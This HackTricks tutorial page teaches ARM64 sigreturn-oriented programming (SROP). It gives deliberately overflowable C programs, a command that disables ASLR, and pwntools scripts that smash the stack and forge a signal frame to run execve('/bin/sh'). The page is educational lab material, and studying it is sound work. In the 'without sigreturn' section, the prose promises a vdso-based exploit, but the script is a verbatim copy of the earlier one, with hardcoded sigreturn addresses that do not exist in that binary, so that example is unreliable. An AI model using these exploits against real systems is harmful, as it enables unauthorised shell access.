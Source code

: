 # SROP - ARM64

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pwntools example

This example is creating the vulnerable binary and exploiting it. The binary **reads into the stack** and then calls **`sigreturn`**:

```python
from pwn import *

binsh = "/bin/sh"
context.clear()
context.arch = "arm64"

asm = ''
asm += 'sub sp, sp, 0x1000\n'
asm += shellcraft.read(constants.STDIN_FILENO, 'sp', 1024) #Read into the stack
asm += shellcraft.sigreturn() # Call sigreturn
asm += 'syscall: \n' #Easy symbol to use in the exploit
asm += shellcraft.syscall()
asm += 'binsh: .asciz "%s"' % binsh #To have the "/bin/sh" string in memory
binary = ELF.from_assembly(asm)

frame = SigreturnFrame()
frame.x8 = constants.SYS_execve
frame.x0 = binary.symbols['binsh']
frame.x1 = 0x00
frame.x2 = 0x00
frame.pc = binary.symbols['syscall']

p = process(binary.path)
p.send(bytes(frame))
p.interactive()
```

## bof example

### Code

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void do_stuff(int do_arg){
    if (do_arg == 1)
        __asm__("mov x8, 0x8b; svc 0;");
    return;
}


char* vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

    return buffer;
}

char* gen_stack() {
    char use_stack[0x2000];
    strcpy(use_stack, "Hello, world!");
    char* b = vulnerable_function();
    return use_stack;
}

int main(int argc, char **argv) {
    char* b = gen_stack();
    do_stuff(2);
    return 0;
}
```

Compile it with:

```bash
clang -o srop srop.c -fno-stack-protector
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space  # Disable ASLR
```

## Exploit

The exploit abuses the bof to return to the call to **`sigreturn`** and prepare the stack to call **`execve`** with a pointer to `/bin/sh`.

```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh")) 

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

## bof example without sigreturn

### Code

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char* vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

    return buffer;
}

char* gen_stack() {
    char use_stack[0x2000];
    strcpy(use_stack, "Hello, world!");
    char* b = vulnerable_function();
    return use_stack;
}

int main(int argc, char **argv) {
    char* b = gen_stack();
    return 0;
}
```

## Exploit

In the section **`vdso`** it's possible to find a call to **`sigreturn`** in the offset **`0x7b0`**:

<figure><img src="../../../.gitbook/assets/image (17).png" alt="" width="563"><figcaption></figcaption></figure>

Therefore, if leaked, it's possible to **use this address to access a `sigreturn`** if the binary isn't loading it:

```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh")) 

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

For more info about vdso check:

{% content-ref url="../ret2vdso.md" %}
[ret2vdso.md](../ret2vdso.md)
{% endcontent-ref %}

And to bypass the address of `/bin/sh` you could create several env variables pointing to it, for more info:

{% content-ref url="../../common-binary-protections-and-bypasses/aslr/" %}
[aslr](../../common-binary-protections-and-bypasses/aslr/)
{% endcontent-ref %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
